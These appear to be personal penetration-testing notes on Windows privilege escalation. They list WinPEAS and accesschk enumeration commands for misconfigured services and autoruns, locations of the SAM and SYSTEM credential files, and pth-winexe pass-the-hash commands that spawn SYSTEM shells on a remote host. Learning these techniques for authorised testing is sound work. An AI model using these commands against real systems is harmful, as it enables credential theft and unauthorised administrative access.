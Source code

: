 # Tools - Privilege escalation

1. Winpeas
2. sharup
3. powerup

Userpermissions check - accesschk.exe, But old version only supports --accepteula command line option

#### Techniques
##### 1. Kernel exploits

Tools
Windows exploit suggester
Waston - For recent version of Windows

Precompiled kernel exploits
SecWiki

##### 2. Service Misconfigurations

##### a. Insecure Service Properties

Weakness exploitable => Modifying the service configuration file by changing the binpath referring malicious.exe file. Upon executing, the reverse shell can be obtained.

Command  

```
.\winpeas quiet servicesinfo
```

Use accesschk.exe to check the permission to change the config of service, start/stop the service
```
.\accesschk.exe /accepteula -uwcqv user <service name>
```

```
sc qc <Servicename>
```
Check the START_TYPE
DEMAND_START means that the service can be start manually <br />
Binary path name and any dependencies can be identified. <br />
Service_Start_Name => LocalSystem => Means service is running with system privilege  <br />

```
sc query <servicename>
```
STATE => Current state of the service, started or stopped.

##### b. Unquoted Service Path
##### c. Weak Registry Permissions
##### d. Insecure Service Executables
##### e. DLL Hijacking

##### 3. Registry exploits

##### a. AutoRuns

If we are able to write to an AutoRun executable and able to restart the system,then t is possible to escalate privileges
```
.\winPEASany.exe quiet applicationsinfo
```

Command to enumerate the AutoRun executables manually

```
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

Then use accesschk.exe to verify the permissions of each service.

```
.\accesschk.exe /accepteula -wvu "C:\ProgramFiles\<Sample Program>\<program.exe>"
```

##### b. AlwaysInstallElevated

##### 4. Passwords

##### a. Searching Registry password

To check common password locations

```
.\winPEASany.exe quiet filesinfo userinfo
```

Using winexe command, we can spawn a shell

```
# winexe -U '<username>%<password>' //192.168.X.X cmd.exe
```

##### b. Saved Creds

Use winPEAS to check for saved credentials:

```
.\winPEASany.exe quiet cmd windowscreds
```

To doublecheck the output manually using following command

```
cmdkey /list
```

##### c. Searching for configruation files

Unattented.xml file

```
.\winPEASany.exe quiet cmd searchfast filesinfo
```

##### d. SAM & Passing the Hash

SAM and SYSTEM file default location
```
C:\Windows\System32\config
```

Backups of the files may exist in the following directories
```
C:\Windows\Repair
C:\Windows\System32\config\RegBack
```

Once hashes are obtained, in either ways we can spwan a cmd.exe
1. Crack the hashes and use winexe to spawn a shell
2. Use pth-winexe 

--system - To spwan system (admin) shell
Without --system, it could be normal user shell.
  
```
pth-winexe --system -U '<Username>%aad3b435b51404eeaad3b435b51404ee:<Users Hash>' //192.168.X.X cmd.exe
```
  
  
  
